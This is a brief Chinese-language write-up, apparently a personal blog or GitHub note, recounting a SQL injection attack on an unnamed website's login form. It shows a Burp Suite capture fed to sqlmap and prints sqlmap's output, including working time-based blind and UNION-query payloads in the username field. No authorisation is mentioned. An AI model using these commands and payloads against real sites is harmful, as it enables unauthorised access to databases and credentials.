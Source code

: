 # 记一次sql注入攻击

对一个网站进行渗透攻击

首先对网站进行简单的测试发现网站有sql的漏洞POST

使用suite进行抓包，把包写进一个xxx.txt的文件中放进sqlmap的文件夹中再使用sqlmap -r xxx.txt --level 3

测试出的结果如下

---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3941 FROM (SELECT(SLEEP(5)))opJN)-- asUo&password=asdasdasd&submit=%E7%9  %BB%E5%BD%95

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-9490' UNION ALL SELECT NULL,CONCAT(0x71707a7171,0x7345736d754f6b7947566d4a48795575456d4b666970694141794f717264506e726176534f4a7a6b,0x716b626b71),NULL-- -&password=asdasdasd&submit=%E7%9  %BB%E5%BD%95
---

本文使用的是最新的kali linux2021

如果使用的是Windows只要在sqlmap文件夹中开一个cmd再用python运行文件夹中的sqlmap.py文件即可使用

如果对有POST漏洞的网站直接进行简单的-u会直接报错

